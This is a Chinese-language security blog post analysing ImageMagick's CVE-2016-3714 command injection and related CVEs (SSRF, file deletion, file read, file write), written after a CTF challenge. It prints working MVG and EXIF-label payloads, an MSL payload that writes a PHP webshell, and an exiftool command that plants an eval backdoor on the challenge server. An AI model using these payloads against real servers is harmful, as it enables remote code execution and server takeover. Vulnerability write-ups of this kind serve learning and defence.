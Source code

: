 ```yaml
---
title: ImageMagick命令执行漏洞（CVE-2016-3714）浅析
date: 2020-08-04 17:56:09
categories:
- Vulnerabilities
- WEB
tags:
- RCE
---
```

## 前言

在做CTF题的时候碰到一道图片上传漏洞的题，尝试了很久发现并不能绕过检测。经过大佬提示这道题玩的是ImageMagick命令执行漏洞，CVE编号CVE-2016-3714，所以就想去好好了解一下这个漏洞。

<!-- more -->

## ImageMagick

ImageMagick是一款功能强大，用户极多的开源图片处理软件，，可以用来读、写和处理多种格式的图片文件。很多网站开发者会调用这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等操作。

## 漏洞描述

ImageMagick是一款开源图片处理库，支持PHP、Ruby、NodeJS和Python等多种语言，使用非常广泛。包括PHP imagick、Ruby rmagick和paperclip以及NodeJS imagemagick等多个图片处理插件都依赖它运行。当攻击者构造含有恶意代码得图片时，ImageMagick库对于HTTPPS文件处理不当，没有做任何过滤，可远程实现远程命令执行，进而可能控制服务器。

相同问题触发的漏洞有很多，如CVE-2016-3714、CVE-2016-3715、CVE-2016-3716、CVE-2016-3717，其中最严重的就是CVE-2016-3714命令执行漏洞。

该漏洞影响范围为ImageMagick 6.9.3-9以前的所有版本。

## 漏洞分析

ImageMagick之所以支持那么多的文件格式,是因为它内置了非常多的图像处理库,对于这些图像处理库,ImageMagick给它起了个名字叫做”Delegate”(委托),每个Delegate对应一种格式的文件,然后通过系统的system()命令来调用外部的lib进行处理。调用外部lib的过程是使用系统的system命令来执行的，导致命令执行的代码。

在ImageMagick的默认配置文件里可以看到所有的委托：/etc/ImageMagick/delegates.xml

具体代码参考[这里](https://github.com/ImageMagick/ImageMagick/blob/25d021ff1a60a67680dbb640ccc0b6b60f785192/magick/delegate.c)

该漏洞出现在mageMagick对https形式的文件处理的过程中，所以直接定位到https Delegate那里：

```XML
" <delegate decode=\"https\" command=\"&quot;wget&quot; -q -O &quot;%o&quot; &quot;https:%M&quot;\"/>"
```

可以看到，command定义了它对于https文件处理时带入system()函数得命令：`"wget" -q -O "%o" "https:%M"`。有些版本可能使用的curl命令，问题还是一样的。

wget是从网络下载文件得命令，%M是一个占位符，被定义为输入的图片格式,也就是我们输入的url地址。但是由于只是做了简单的字符串拼接,没有做任何过滤，直接拼接到command命令中，所以我们可以将引号闭合后通过"|",”`”,”&”等带入其他命令,也就形成了命令注入。

比如我们传入如下代码：`https://test.com"|ls “-al`

则实际得system函数执行得命令为：`“wget” -q -O “%o” “ https://test.com"|ls “-al”`

这样，ls -al命令成功执行。

## 漏洞利用

ImageMagick默认支持一种图片格式，叫mvg，而mvg与svg格式类似，其中是以文本形式写入矢量图的内容，允许在其中加载ImageMagick中其他的delegate(比如存在漏洞的https delegate)。并且在图形处理的过程中,ImageMagick会自动根据其内容进行处理,也就是说我们可以将文件随意定义为png、jpg等网站上传允许的格式,这大大增加了漏洞的可利用场景。

所以我们可以构造一个.mvg格式的图片（但文件名可以不为.mvg，比如下图中包含payload的文件的文件名为vul.gif，而ImageMagick会根据其内容识别为mvg图片），并在https://后面闭合双引号，写入自己要执行的命令：

```Code
* push graphic-context
* viewbox 0 0 640 480
* fill 'url(https://"|id; ")'
* pop graphic-context
```

简单解释一下上面的POC：

* push和pop是用于堆栈的操作，一个进栈，一个出栈;

* viewbox是表示SVG可见区域的大小，或者可以想象成舞台大小，画布大小。简单理解就是根据后面得参数选取其中得一部分画面;

* fill url()是把图片填充到当前元素内;

使用fill url()的形式调用存在漏洞的https delegate，当ImageMagick去处理这个文件时,漏洞就会被触发。

## 系列漏洞

CVE-2016-3718：利用mvg格式中可以包含url的特点，进行SSRF攻击。

```Code
* push graphic-context
* viewbox 0 0 640 480
* fill 'url(http://example.com/)'
* pop graphic-context
```

CVE-2016-3715：利用ImageMagick支持的ephemeral协议，来删除任意文件。

```Code
* push graphic-context
* viewbox 0 0 640 480
* image over 0,0 0,0 'ephemeral:/tmp/delete.txt'
* popgraphic-context
```

CVE-2016-3716：利用ImageMagick支持的msl协议（读取一个msl格式的xml文件，并根据其内容执行一些操作），来进行文件的读取和写入。利用这个漏洞，可以将任意文件写为任意文件，比如将图片写为一个.php后缀的webshell。

```Code
* file_move.mvg
* -=-=-=-=-=-=-=-=-
* push graphic-context
* viewbox 0 0 640 480
* image over 0,0 0,0 'msl:/tmp/msl.txt'
* popgraphic-context
* 
* /tmp/msl.txt
* -=-=-=-=-=-=-=-=-
* <?xml version="1.0" encoding="UTF-8"?>
* <image>
* <read filename="/tmp/image.gif" />
* <write filename="/var/www/shell.php" />
* </image>
```

CVE-2016-3717：本地文件读取漏洞。

```Code
* push graphic-context
* viewbox 0 0 640 480
* image over 0,0 0,0 'label:@/etc/hosts'
* pop graphic-context
```

## 漏洞扩展

PHP扩展『ImageMagick』也存在这个问题，而且只需要调用了Imagick类的构造方法，即可触发这个漏洞。

除了.mvg格式的图片以外，普通png格式的图片也能触发命令执行漏洞。在ImageMagick源码中除了%m，还有%l占位符，表示图片exif label信息：

```XML
<delegate decode="miff" encode="show" spawn="True" command="&quot;/usr/bin/display&quot; -delay 0 -window-group %[group] -title &quot;%l &quot; &quot;ephemeral:%i&quot;"/>
```

它将%l拼接进入了/usr/bin/display命令中，所以我只需将正常的png图片，带上一个『恶意』的exif信息。在调用ImageMagick将其处理成.show文件的时候，即可触发命令注入漏洞：

```Code
* exiftool -label="\"|/usr/bin/id; \"" test.png
* convert test.png o.show
```

但这个方法鸡肋之处在于，因为delegate.xml中配置的encode=show（或win），所以只有输出为.show或.win格式的情况下才会调用这个委托，而普通的文件处理是不会触发这个命令的。

## 实例

最后回到那道CTF题：[Jarvis OJ - 图片上传漏洞](http://web.jarvisoj.com:32790/)。

通过网站目录扫描发现有和test.php界面，打开发现是phpinfo界面，其中开启了imagick模块：

![](/img/ImageMagick/ImageMagick1.png)

先用 exiftool 生成一个一句话后门，路径由 phpinfo 得到：

```Bash
exiftool -label="\"|/bin/echo \<?php \@eval\(\\$\_POST\[x\]\)\;?\> > /opt/lampp/htdocs/uploads/x.php; \"" normal.png 
```

然后上传图片：

![](/img/ImageMagick/ImageMagick2.png)

之后就是直接连接webshell或者找flag了：

![](/img/ImageMagick/ImageMagick3.png)